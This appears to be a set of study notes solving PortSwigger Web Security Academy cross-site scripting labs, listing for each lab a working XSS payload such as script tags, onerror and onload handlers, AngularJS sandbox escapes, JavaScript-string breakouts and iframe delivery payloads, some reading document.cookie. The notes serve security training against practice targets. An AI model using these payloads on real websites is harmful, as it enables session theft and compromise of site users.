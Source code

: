 # DOM-Based XSS  Cross-site scripting

https://portswigger.net/web-security/all-labs#cross-site-scripting


### LAB: Reflected XSS into HTML context with nothing encoded

```
Enter the following into the search box: 
Payload : '</h1><script>alert(1)</script>
```

### Lab: Stored XSS into HTML context with nothing encoded
```
Enter the following into the comment box: 
 - Payload: comment=<script>alert(2)</script>
```



### Lab: DOM XSS in document.write sink using source location.search

A website takes something from the URL (like a search term),
And then shows it on the page using JavaScript,Without checking if it's safe.

✅ Two Important Parts:

1. Source – Where the user input comes from
   Example: location.search → This gives the part after ? in the URL.
   For example:
```
   https://example.com/page?name=hello
   location.search → "?name=hello"
```

2. Sink – Where the data is used/executed.
   Example: document.write() → This writes HTML to the page.
   If we use it directly with location.search, it can be dangerous.



Payload  : 
```
- ABC"><img src="a" onerror=alert(1)>
- ABC"><svg onload=alert(1)>
```



### Lab: DOM XSS in innerHTML sink using source location.search

Note : innerHTML we cannot insert any script tag.

Payload  : 
```
- <img src="a" onerror=alert(1)>
```


### Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

Payload :
<a href="javascript:alert(document.cookie)">Click me</a>

```
javascript:alert(document.cookie)
```

### Lab: DOM XSS in jQuery selector sink using a hashchange event

```
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
        });
</script>
```
Payload :

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

### Lab: Reflected XSS into attribute with angle brackets HTML-encoded


when you're dealing with XSS (Cross-Site Scripting) and < or other tag-related characters (<, >) are filtered or encoded, you need to rely on tag-less or attribute-based payloads that don't require <script> or <img> tags to execute.

<a href="https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Payload/tagless_xss_payloads.txt">Tagless PAyloads</a>

```
" onmouseover="alert(1)
```

### LAB: Reflected XSS into a JavaScript string with angle brackets HTML encoded

When you’re dealing with Reflected XSS into a JavaScript string, and angle brackets < > are HTML-encoded or filtered, you can still exploit XSS without any HTML tags.

```
";alert(1);//         // closes quote and runs JS
'+alert(1)+'         // using concatenation
'-alert(1)-'         // works too
"/1/+alert(1)//      // division with alert
"/a/+alert(1)//      // forces type coercion
"+alert(1)+""        // string concat, safe from HTML filter
"+alert(String.fromCharCode(88,83,83))+"
```


### LAB: DOM XSS in document.write sink using source location.search inside a select element

payload:
```
product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>
```

### LAB:  DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
$scope
$watch $ON $eval $emit $apply $digest
payload:
```
{{$on.constructor('alert(1)')()}}
{{$watch.constructor('alert(1)')()}}
```


### LAB: Reflected DOM XSS
payload:
```
\"-alert(1)}//
\"+alert(1)}//
\"&alert(1)}//
\"|alert(1)}//
```

### Lab: Stored DOM XSS
payload:
```
<><img src=1 onerror=alert(1)>
```


### Reflected XSS into HTML context with most tags and attributes blocked

<iframe src="https:///0af8005f03c81c828041176b003b001f.web-security-academy.net/?search=<body onresize=print()>" onload=this.style.width='100px'>



### Reflected XSS into HTML context with all tags blocked except custom ones

```
<robin onclick=alert(document.cookie)>
<robin onclick=alert(1)>

<script>
location = 'https://0a5400970474591680c31759002a0079.web-security-academy.net/?search=<robin id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```

### Lab: Reflected XSS with some SVG markup allowed
```
<svg id=x onbegin=alert(1)>
<svg><animatetransform onbegin=alert(1)>   
```
### LAB:  Reflected XSS in canonical link tag
```
/?'accesskey='x'onclick='alert(1)



### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
```
</script><script>alert(1)</script>

```

### Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
```
\'-alert(1)//
\'+alert(1)//
```

### Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
```
http://foo?&apos;-alert(1)-&apos;
```